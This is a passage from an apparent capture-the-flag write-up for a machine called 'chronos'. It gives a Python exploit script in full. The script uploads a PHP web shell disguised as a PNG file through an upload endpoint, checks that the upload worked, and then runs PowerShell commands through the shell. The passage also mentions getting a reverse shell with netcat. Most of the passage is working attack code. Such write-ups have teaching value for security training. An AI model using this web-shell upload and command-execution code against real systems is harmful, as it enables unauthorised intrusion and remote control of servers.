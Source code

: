 We successfully execute code and can now read user.txt or get a reverse-shell using netcat.

### Writing an exploit script

In order for our exploit-script to work we need three parts:

1. Upload web-shell

   ```python
   # Upload webshell
   def upload_shell():
       log.info("Uploading webshell...")
       image = {
                   'file': 
                     (
                       'chronos.php.png', 
                       '<?php echo shell_exec($_REQUEST["cmd"]); ?>', 
                       'image/png',
                       {'Content-Disposition': 'form-data'}
                     ) 
                 }
       data = {'pupload': 'upload'}
       r = requests.post(url=f"{host}/upload.php?id=chronos", timeout=15, files=image, data=data, verify=False)#, proxies={'http':'127.0.0.1:8080'})
       if r.status_code != 200:
           raise Exception("Uploading shell did not work!")
       
       if not verify_shell():
           raise Exception("Did not upload shell!")
       
       log.success("Uploaded webshell!")
   ```

   

2. Verify upload

   ```python
   # Verify that webshell was uploaded
   def verify_shell():
       r = requests.get(f"{host}/upload/chronos.php", timeout=15, verify=False)#, proxies={'http':'127.0.0.1:8080'})
       return r.status_code == 200
   ```

   

3. Execute commands

```python
# Execute command on shell
def exec(cmd, delay=0):
    try:
        sleep(delay)
        # Upload shell if not uploaded
        if not verify_shell():
            upload_shell()
        
        command = {'cmd': f'powershell -c "{cmd}"'}
        r = requests.get(f"{host}/upload/chronos.php", params=command, timeout=15, verify=False)#, proxies={'http':'127.0.0.1:8080'})
        if r.status_code != 200:
            raise Exception("Shell not uploaded!")
        return r.text.strip()
    except:
        pass
```
